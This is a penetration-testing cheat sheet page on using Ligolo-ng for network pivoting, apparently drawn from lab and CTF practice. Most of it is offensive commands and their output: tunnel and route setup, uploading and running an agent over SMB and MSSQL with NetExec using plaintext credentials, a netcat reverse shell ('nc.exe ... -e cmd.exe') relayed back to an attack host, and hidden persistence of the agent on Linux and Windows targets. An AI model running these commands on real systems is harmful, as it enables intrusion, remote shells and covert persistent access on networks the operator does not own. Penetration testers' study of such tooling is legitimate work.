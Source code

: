 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Ligolo-ng

## Pivoting

{% tabs %}
{% tab title="1. Interface Setup" %}
Create and activate a new tunnel interface for `ligolo` :

```bash
# Create the interface
sudo ip tuntap add user kali mode tun ligolo
# Activate the interface
sudo ip link set ligolo up
```

On `Ligolo-ng >= v0.6`, this can be done in a single step:

```bash
ligolo-ng » interface_create --name ligolo
INFO[0006] Creating a new "ligolo" interface...
INFO[0006] Interface created!
ligolo-ng » interface_list
┌───────────────────────────┐
│ Available tuntaps         │
├───┬──────────┬────────────┤
│ # │ TAP NAME │ DST ROUTES │
├───┼──────────┼────────────┤
│ 0 │ ligolo   │            │
└───┴──────────┴────────────┘
```
{% endtab %}

{% tab title="2. Proxy" %}
When the environment has no internet availability, e.g. CTFs, practice labs, etc.:

```bash
./proxy -selfcert
```

When there is internet available on the environment, e.g. on an actual test environment:

> _Port 80 needs to be accessible for Let's Encrypt certificate validation/retrieval._

```bash
./proxy -autocert
```
{% endtab %}

{% tab title="3. Agent" %}
From the target machine:

```bash
# When -autocert is used on the proxy
./agent -connect 10.129.204.146:11601
# When -selfcert is used on the proxy
./agent -connect 10.129.204.146:11601 -ignore-cert
```
{% endtab %}

{% tab title="4. Interact" %}
asd

```bash
# List active sessions
ligolo-ng » session
# List interfaces of the target machine
[Agent : pivot@pivot-machine] >> ifconfig
```
{% endtab %}

{% tab title="5. Routes" %}
Add a route to the target network:

```bash
sudo ip route add 172.16.10.0/24 dev ligolo
```

On `Ligolo-ng (>= 0.6)` this can be done internally:

```bash
ligolo-ng » interface_add_route --name ligolo --route 172.16.10.0/24
INFO[3206] Route created.       
```

Finally, start the tunnel:

```bash
[Agent : pivot@pivot-machine] >> tunnel_start
```

Now, we can reach the `172.16.10.0/24` network from our Kali:

```bash
$ sudo nmap 172.16.10.0/24 -T4
```
{% endtab %}
{% endtabs %}

## Port-Forward

{% tabs %}
{% tab title="1. Routing" %}
To access local ports on the connected agent, `ligolo-ng` uses a hardcoded "magic" CIDR: `240.0.0.0/4`:

```bash
$ sudo ip route add 240.0.0.1/32 dev ligolo
```
{% endtab %}

{% tab title="2. Interact" %}
Now, any IP queried in this unused subnet is automatically redirected to the agent's `127.0.0.1`. For instance, the below scan will scan the target's loopback address (`127.0.0.1`):

```bash
$ nmap 240.0.0.1
```
{% endtab %}
{% endtabs %}

## Agent Transfer & Execution

We don't need elevated privileges on the target to use the `ligolo-agent`.

{% tabs %}
{% tab title="Transfer" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth --put-file 'agent.exe' '\Windows\Temp\agent.exe'
```
{% endcode %}
{% endtab %}

{% tab title="Execute" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth -x '\Windows\Temp\agent.exe -connect 10.10.15.223:11601 -ignore-cert'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Reverse Shell

We have a route to the target network, but the target network does not have a route to our attack host. Thus, if we want to catch a reverse shell from a target other than the pivot host:

{% tabs %}
{% tab title="1. Listener Setup" %}
Create a listener on the agent/pivot host (`0.0.0.0:3000`) that will redirect the traffic to our proxy/attack host (`127.0.0.1:4444`).

{% code overflow="wrap" %}
```bash
[Agent : pivot@pivot-machine] >> listener_add --addr 0.0.0.0:3000 --to 127.0.0.1:4444 --tcp
INFO[0373] Listener 0 created on remote agent!
```
{% endcode %}

Start listening from our attack host:

```bash
$ nc -lvnp 4444
listening on [any] 4444...
```
{% endtab %}

{% tab title="2. Connect from Target" %}
Transfer the binary to the target:

{% code overflow="wrap" %}
```bash
nxc mssql 10.10.63.148 -u sql_svc -p Dolphin1 --put-file 'nc.exe' 'c:\windows\temp\nc.exe'
```
{% endcode %}

Connect from the target to the pivot machine (`10.10.63.147`) on the listening port (`30000`):

{% code overflow="wrap" %}
```bash
$ nxc mssql 10.10.63.148 -u sql_svc -p Dolphin1 -x 'c:\windows\temp\nc.exe 10.10.63.147 3000 -e cmd.exe'
```
{% endcode %}

This will connect to the agent's listener and then forwarded to our proxy:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.237] from (UNKNOWN) [192.168.45.237] 46144
...
C:\Windows\system32>whoami
nt service\mssql$sqlexpress

C:\Windows\system32>hostname
MS02
```
{% endtab %}
{% endtabs %}

## Persistence

{% code overflow="wrap" %}
```sh
# Linux targets
nohup /tmp/agent -connect 10.10.14.5:443 -ignore-cert > /dev/null 2>&1 &

# Windows targets
Start-Process -FilePath "C:\Windows\Temp\agent.exe" -ArgumentList "-connect 10.10.14.5:443 -ignore-cert" -WindowStyle Hidden
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="Documentation" %}
{% embed url="https://docs.ligolo.ng/" %}
{% endtab %}

{% tab title="Repo" %}
{% embed url="https://github.com/nicocha30/ligolo-ng" %}
{% endtab %}

{% tab title="Video Demo" %}
{% embed url="https://www.youtube.com/watch?v=qou7shRlX_s" %}
{% endtab %}
{% endtabs %}
